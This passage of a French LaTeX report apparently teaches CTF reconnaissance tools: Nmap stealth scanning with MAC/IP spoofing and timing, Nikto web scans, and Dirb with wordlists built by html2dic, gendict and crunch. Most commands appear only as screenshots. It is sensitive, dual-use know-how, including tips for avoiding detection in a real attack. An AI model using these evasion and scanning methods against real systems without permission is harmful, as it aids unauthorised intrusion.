  
\includegraphics[width=0.8\textwidth]{oui/images/nmap/scriptscan.PNG}
  \caption{NSE par défaut}
  \label{fig:nse}
\end{figure}

On s'aperçoit que la quantité d'informations est très importante. Ce type de scan est le moyen ultime pour récupérer le plus d'informations possible. Il sera donc à privilégier lors d'un CTF.\\

\newpage

 \textbf{Devenir invisible}\\

Avoir des informations, c'est bien, mais les récupérer en étant discret, c'est mieux. En effet, si la machine cible n'était pas un CTF mais un cas réel d'attaque, il nous faudrait apprendre à ne pas être détécté. Il existe de multiples moyens que nous allons voir ici. Dans un premier temps, il faut savoir que Nmap utilise l'option -sS par défaut. Ce mode permet à Nmap de ne réaliser qu'une demi-ouverture de porte. Cet option est essentielle afin de ne pas être détecté trop vite. Ensuite, nous avons la possiblité d'usurper notre identité via un spoof MAC et IP comme on peut le voir sur la \textbf{figure \ref{fig:spoofip}}\\

\begin{figure}[]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/nmap/spoof.PNG}
  \caption{Spoof MAC et IP}
  \label{fig:spoofip}
\end{figure}

Cette méthode consiste à se faire passer pour quelqu'un du réseau via son adresse MAC et IP. L'option -g permet d'indiquer vers quel port de la machine usurpée Nmap va rediriger les échanges. L'option -e indique sur quelle interface réseau la machine attaquante va recevoir les informations telles que l'attaque "Man in the middle". Enfin, l'option -Pn n'est pas obligatoire mais elele est conseillée par Nmap en cas d'usurpation d'identité. En effet, cette option permet de bloquer le protocole ICMP et ainsi de ne pas être découvert.\\
%ça te va ?
La seconde méthode permet d'être moins visible vis à vis d'un firewall et de cibler les ports les plus connus tout en réduisant le temps de scan de ports. En moyenne, la durée d'un scan par défaut de Nmap est de 1 seconde. Il est possible de faire varier le temps d'un scan afin de faire baisser le nombre d'ouverture de ports par seconde en utilisant l'argument -Tx. Il est à notifier que le x est comprit entre 0 et 5 et que plus le x sera grand, plus le scan sera agressif. \\

\vspace{0.1cm}

Cependant, si on recherche à être discret et que l'on choisit un x valant 1 ou 0, le scan risque d'être très long... En effet, l'option -T1 réalise le scan en 30 secondes minimum tandis que le -T0 le réalise en 10 minutes ! La solution la plus adaptée est donc de cibler des ports stratégiques avec l'argument -p comme indiqué dans la \textbf{figure \ref{fig:port}}.\\



\begin{figure}[]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/nmap/t1.PNG}
  \caption{Ciblage des ports}
  \label{fig:port}
\end{figure}

Nous avons donc compris dans cette partie que l'outil Nmap est essentiel lors d'une attaque et qu'il comporte énormément de fonctionnalités.

\section{Nikto}

\subsection{Présentation}
Nikto est un outil écrit en Perl permettant le scan de vulnérabiltés sur un serveur Web. Il permet de tester la sécurité de la configuration d'un serveur web (les options HTTP, les index, les potentielles failles XSS, injections SQL etc…).\\
Avant de montrer ce que peut réaliser Nikto, nous pouvons dans un premier temps revoir comment fonctionne une requête Web. Parmis les ports réservés, les serveurs Web utilise le port 80 pour HTTP et le port 443 pour l'HTTPS. Pour comprendre le fonctionnement, nous allons analyser un échange entre un client et un serveur sur la \textbf{figure \ref{fig:webdiag}}.\\



\begin{figure}[t]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/Nikto/wEBDiagram.png}
  \caption{Échange entre un navigateur et un serveur Web}
  \label{fig:webdiag}
\end{figure}


Comme on peut le voir, le schéma sur la \textbf{figure \ref{fig:webdiag}}. ainsi que la capture wireshark en \textbf{figure \ref{fig:niktowire}} montrent l'échange minimal entre un navigateur et un serveur Web afin d'obtenir une page HTML via HTTP. Une page Web utilse le protocole TCP pour transmettre les paquets. En effet, lorsque nous chargeons une page Web, nous la voulons complète et sans erreurs. C'est pourquoi le protocole TCP existe. Au début de chaque trame TCP, il ya une synchronisation de la connexion avec le "3 way handshakes". Passons maintenant à la couche applicative : les envois HTTP sont directement émis par le navigateur et par le serveur Web. Ici, c'est notre navigateur qui fait une requête GET au serveur pour obtenir l'ensemble de la page Web voulue. Il existe plusieurs types de requêtes Web (GET, POST, HEAD, ...) mais seul le GET va nous intéresser car il est le plus utilisé. 

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/Nikto/wireshark1.PNG}
  \caption{Capture Wireshark d'un scan nikto}
  \label{fig:niktowire}
\end{figure}


 Lors du scan, Nikto est capable de :\\
\textbf{- Vérifier} si la version du serveur est obsolète ainsi que les logiciels et     modules qui sont utilisés par ce dernier. \\   
\textbf{- Scanner} les répertoires, qui peuvent contenir des informations sensibles.\\
\textbf{- Tester} près de 6000 fichiers potentiellement vulnérables.\\
De plus, Nikto supporte les connexions SSL.


\newpage

\subsection{Utilisation de Nikto}

 Pour lancer un simple scan, il suffit de taper la commande :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/Nikto/1.PNG}
  \caption{Scan simple}
  \label{fig:courbe-tikz}
\end{figure}

On peut remarquer grâce à cette capture wireshark que par défaut, Nikto scanne le port 80 :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/Nikto/2.PNG}
  \caption{Scan d'un port}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.7\textwidth]{oui/Ancien/imangeancien/Nikto/wireshark3.png}
  \caption{Mise en évidence du port scanné par défaut par la commande nikto}
  \label{fig:courbe-tikz}
\end{figure}

\newpage

Afin de scanner un port précis, il faut ajouter l'argument \textbf{-p}: 

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/Nikto/2.PNG}
  \caption{Scan d'un port}
  \label{fig:courbe-tikz}
\end{figure}

Dans cette capture, nous venons de scanner l'IP sur le port 80 (http). Il également possible de cibler plusieurs ports en même temps:


\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/Nikto/3.PNG}
  \caption{Scan de plusieurs ports}
  \label{fig:courbe-tikz}
\end{figure}

A partir de ces captures, on peut en déduire que Nikto est capable de nous fournir le logiciel qui permet de faire fonctionner le serveur web, sa version et également le système d'exploitation utilisé. En effet, toutes ces informations sont comprises dans l'entête des réponses HTTP du serveur. Nikto est également capable de vérifier les mauvaises configurations de services ou de programmes mal sécurisé. Cet outil propose également des plugins permettant la recherche d'autres vulnérabilités ou de fichier pouvant être intéressant dans un CTF tel que le fichier \textbf{robots.txt}. Ce fichier permet le référencement d'un site WEB par les robots de Google. Cependant, l'administrateur peut empêcher le scan de certains répertoires par les robots en précisant dans ce fichier quelques paramètres. Ainsi, grâce à cela, un attaquant peut utiliser ce fichier pour découvrir des répertoires que l'administrateur aurait voulu cacher.

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.5\textwidth]{oui/Ancien/imangeancien/Nikto/robots.PNG}
  \caption{Extrait fichier robots.txt}
  \label{fig:courbe-tikz}
\end{figure}

 On comprend à travers cette capture que le paramètre \textbf{Disallow} empêche le scan de ce répertoire.\\

\subsection{Gagner en discrétion pendant les scans}
Une méthode pour gagner en discrétion pendant l'attaque serait d'effectuer un scan par intervalle. En effet, si on effectue un scan toutes les 10 secondes, cela paraîtra moins suspect qu'un scan toutes les 1ms. Cela est possible en ajoutant l'option \textbf{-Pause 10} en argument :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.8\textwidth]{oui/Ancien/imangeancien/Nikto/nikto9.png}
  \caption{Ajout de l'argument Pause}
  \label{fig:courbe-tikz}
\end{figure}

Voici une capture wireshark de ce scan avec l'ajout de l'argument :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Nikto/wireshark4.PNG}
  \caption{Capture wireshark du scan avec l'otpion de pause}
  \label{fig:courbe-tikz}
\end{figure}

 On remarque l'utilisation du protocole NTP (Network Time Protocol) qui permet ici de mettre en place le temps de pause.
\newpage

\section{Dirb/Dirbuster}

Après avoir réalisé un scan via Nmap et repéré qu'un serveur Web est activé, Dirb sera là pour vous guider à travers les pages car il est un scanneur de contenu Web. Son but est de trouver l’existence d’objets web, qu’ils soient cachés ou non.
Son fonctionnement réside en la lancée d’une attaque par dictionnaire contre un serveur web et d’en analyser la réponse. \\
Cependant, il existe une différence entre une attaque par dictionnaire et une attaque par bruteforce pure.\\
Une attaque par dictionnaire est une attaque que l’on utilise dans la cryptanalyse (technique de déduction d’un texte en clair par rapport à un texte chiffré sans la clé de chiffrement) pour justement trouver un mot de passe ou une clé de chiffrement. 
Son fonctionnement consiste à tester une liste donnée de mots de passe potentiels, un par un, en espérant que le mot de passe de chiffrement soit l’un deux. 
Cette technique ne marche donc pas systématiquement et il faut une énorme liste de mots de passe et du temps pour qu’elle soit efficace. L'intérêt d'installer des dictionnaires supplémentaires serait utile dans les cas de mots de passe très complexes.
C’est d’ailleurs à cause de ce genre d’attaque que l’on conseille de mettre des mots de passe compliqués, car ceux courants sont bien plus simples à trouver avec ce genre d’attaque. 

\subsection{Création de dictionnaires et utilisation de Dirb}

Comme nous l'avons plus haut, Dirb se base sur un dicitonnaire afin de réaliser son scan. Nous avons donc quatre possibilités :

\begin{itemize}
    \item \textbf{Créer un dictionnaire à partir d'une page Web}
    \item \textbf{Créer un dictionnaire sous forme de pattern}
    \item \textbf{Créer un dictionnaire aléatoire}
    \item \textbf{Utiliser un dictionnaire présent dans le répertoire de Dirb}\\
\end{itemize}

 \textbf{Créer un dictionnaire à partir d'une page Web}\\

Cette méthode est plus utilisée avec l'outil John que Dirb mais il est important de l'expliquer ici. En effet, utiliser des mots présents sur une page Web peut être intéressant dans le cas où nous avons un mot de passe hasher à découvrir. Il vous faudra donc télécharger la page Web en question via un wget et réaliser la commande suivante :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Dirb/html2dic.PNG}
  \caption{Html2dic}
  \label{fig:courbe-tikz}
\end{figure}

\newpage
C'est ainsi que nous pouvons créer un premier dictionnaire assez rapidement.\\

 \textbf{Créer un dictionnaire sous forme de pattern}\\

Lorsque que l'on connaît une partie du mot ou page que l'on recherche, utiliser un pattern peut être la solution. Un pattern est une forme commune qui va varier sur une partie pré-définie. Gendict est l'outil de création de dictionnaire avec pattern que nous allons utiliser ici. Il vous faudra cependant l'installer via le paquet "icu-devtools". Voici son utilisation :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.34\textwidth]{oui/images/Dirb/gendict.PNG}
  \caption{Gendict -a}
  \label{fig:courbe-tikz}
\end{figure}

On comprend ici que le X sera la variable du pattern. Il est donc tout à fait possible de créer un dictionnaire sans pattern en mettant un nombre de X correspondant à la taille recherchée comme ceci :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.9\textwidth]{oui/images/Dirb/dicoaleatoire.PNG}
  \caption{Gendict -s}
  \label{fig:courbe-tikz}
\end{figure}

L'option -s permet d'obtenir aussi les majuscules. Les deux principaux défauts de Gendict en tant que créateur de dictionnaires aléatoires sont les suivants :

\begin{itemize}
    \item \textbf{Le manque de caractères spéciaux}
    \item \textbf{La taille est fixe en fonction du nombre de X}
\end{itemize}

C'est pour cette raison qu'il existe un autre outil spécialisé dans la conception de dictionnaires aléatoires.\\

 \textbf{Créer un dictionnaire aléatoire}\\

L'outil que nous considérons comme le plus efficace en terme de création de dictionnaires aléatoires est l'outil Crunch. Ce dernier, en plus de réaliser du pattern, complète les défauts de Gendict. Nous allons vous présenter la manière pour réaliser le dictionnaire le plus complet possible de manière aléatoire. Tout d'abord, Crunch se base sur un dictionnaire se nommant "charset.lst". Vous y retrouverez les séries de caractères que vous pouvez choisir pour réaliser votre dictionnaire. Dans notre cas, nous avons choisis d'utiliser la série mixalpha-numeric-all-space et nous l'avons enregistré dans un fichier dico.txt comme ci-dessous :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Dirb/crunch.PNG}
  \caption{Crunch}
  \label{fig:courbe-tikz}
\end{figure}

Comme vous pouvez le voir au début de la commande, nous avons spécifié que les mots devaient être générés entre 1 et 4 caractères et l'outil nous annonce que le dictionnaire fera 391 MB ! Pour information, les sites Web demandent en général un mot de passe avec au minimum 8 caractères. Je vous laisse donc lire la taille du dictionnaire si l'on souhaitait des mots de 1 à  8 caractères :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Dirb/crunch2.PNG}
  \caption{Crunch}
  \label{fig:courbe-tikz}
\end{figure}

Il est donc certain que cet outil vous permettra d'avoir un dictionnaire le plus complet au monde à la seule condition d'avoir une très grosse station de stockage... Heureusement que les concepteurs de Dirb ont pensé à ce détail et nous ont fourni des dictionnaires par défaut.\\

 \textbf{Utiliser un dictionnaire présent dans le répertoire de Dirb}\\

Comme nous l'avons vu précedemment, créer un dictionnaire peut vite devenir fastidieux. C'est pour cette raison que nous allons nous baser sur les dictionnaires présents dans le répertoire de Dirb. Il en existe plusieurs mais ici, nous allons utiliser le dictionnaire common.txt :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=1\textwidth]{oui/images/Dirb/dirb.PNG}
  \caption{Utilisation de Dirb}
  \label{fig:courbe-tikz}
\end{figure}

Encore une fois, l'utilisation d'un dictionnaire est très personnel. Il vous suffira donc de changer le dictionnaire et de lancer la commande afin d'obtenir un résultat. Comme vos pouvez le voir sur la capture d'écran ci-dessus, Dirb nous donne des pages cachées que nous n'aurions pas forcément trouvé tout seul. Cet outil est donc essentiel lors d'un pentest Web.

\subsection{Comparaison entre Dirb et Dirbuster}

Pour ceux qui préfèrent les interfaces graphiques aux lignes de commandes, il existe l'équivalent de Dirb en GUI (Graphical User Interface) qui se nomme Dirbuster.

Ce dernier permet, lui aussi, d’attaquer un site par dictionnaire. Il suffit de rentrer l'adresse IP du site ainsi que le répertoire où est stocké la liste de mots visible en \textbf{figure \ref{fig:dirbuster}}. 

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
